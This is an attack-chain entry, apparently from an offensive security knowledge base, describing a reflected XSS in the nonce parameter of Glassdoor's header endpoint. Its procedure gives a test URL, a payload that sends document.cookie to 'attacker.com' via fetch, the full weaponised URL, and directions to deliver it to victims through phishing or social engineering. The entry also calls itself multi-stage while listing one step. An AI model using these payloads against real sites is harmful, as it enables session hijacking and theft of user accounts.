

---
tags:
  - xss
  - reflected-xss
  - javascript
  - session-hijacking
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-in-Nonce-Parameter]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:16:19.919Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the nonce
  parameter of Glassdoor's header endpoint to execute arbitrary JavaScript and
  steal session cookies.
skill_level: intermediate
impact_level: medium
id: dd46f5f0-bbd3-42a1-9bdf-ff76aa43c5eb
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS in Glassdoor Header Nonce Parameter for Session Hijacking

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Proxy tool like Burp Suite (optional for interception)

### Target Environment

- Web platform
- Access to public-facing Glassdoor endpoint
- No specific ports or services required beyond HTTP/HTTPS

### Initial Access Requirements

- No credentials needed
- Victim must visit the crafted malicious URL
- Attacker needs ability to host or share the URL (e.g., via phishing)

## Detailed Attack Procedures

### Step 1: Craft and Deliver Malicious Payload
procedure: [[procedures/Exploit-Reflected-XSS-in-Nonce-Parameter]]

**Objective**: Inject a malicious JavaScript payload into the nonce parameter to execute arbitrary code in the victim's browser upon visiting the crafted URL.

**Instructions**: Construct a URL targeting the vulnerable endpoint with an XSS payload in the nonce parameter. For example, use a payload like `<script>alert(document.cookie)</script>` to test and steal cookies. Encode the payload if necessary to bypass basic filters, but in this case, the reflection was direct.

To test, open a browser and navigate to:

```url
https://www.glassdoor.com/parts/header.htm?nonce=<script>alert(1)</script>
```

Replace the payload with one that exfiltrates data, such as sending cookies to an attacker-controlled server:

```javascript
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```

Full URL example:

```url
https://www.glassdoor.com/parts/header.htm?nonce=<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```

Share this URL with the victim via email, social engineering, or embedding in a site.

**Expected Output**: Upon visiting the URL, the victim's browser executes the JavaScript, popping an alert or sending data to the attacker.

**Success Indicators**:
- Alert box appears or network request to attacker server is observed
- Session cookies captured on attacker side
- No server-side errors; payload reflects unsanitized
